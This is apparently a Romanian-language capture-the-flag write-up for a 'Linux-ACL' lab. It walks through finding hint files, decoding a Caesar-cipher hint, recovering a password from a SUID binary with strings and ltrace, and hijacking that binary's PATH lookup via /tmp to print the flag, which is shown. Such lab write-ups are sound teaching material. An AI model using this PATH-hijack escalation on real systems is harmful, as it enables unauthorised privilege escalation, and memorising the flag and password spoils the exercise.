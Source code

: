 # Linux-ACL

Pentru mai multe cuvinte uita-te in redme-ul din `/sol`
## Pasi

```bash
find -name "*flag*"
# /var/local/vim/scripts/jmkr/flag1999
```

```bash
find / -name "*hint*"
cat /var/lib/misc/here/.hints.txt
# Here's more hints:

#   - Gandalf giving you problems? try the magic words `ltrace`...
#   - `find` is your friend (helped you find this);
#   - 16iyemkx 19aypjr 23vxlg 17krwjarnb 12kwhv 18XIBP 22zevmefpiw!
```

Al treilea hint e cifrul lui cezar cu complementul fata de 26 => you can trick suid binaries with PATH variables!

```bash
find / -name "*manele*" 2>/dev/null
# /usr/games/hunt/manele
# /var/local/trap/manele
```
```bash
cd /usr/games/hunt/manele
./ x31337.bin
# You shall not pass!
```
```bash
strings ./x31337.bin
# ...
# 7a0ba3fe73fcac4a382dc6d38163c98a
# You shall not pass!
# Ok, I'll show you a magic trick:
# /var/local/vim/scripts/jmkr/flag1999
# file "%s"
# ...
```
```bash
ltrace ./x31337.bin 7a0ba3fe73fcac4a382dc6d38163c98a
```

```bash
nano /tmp/file
# cat /var/local/vim/scripts/jmkr/flag1999
chmod +x /tmp/file
export PATH=/tmp:$PATH
```
```bash
/usr/games/hunt/manele/x31337.bin 7a0ba3fe73fcac4a382dc6d38163c98a
# Ok, I'll show you a magic trick:
# SpeishFlag{1KSovYqFbaF60mrlw5gX40Ck45xpHqQr}
```
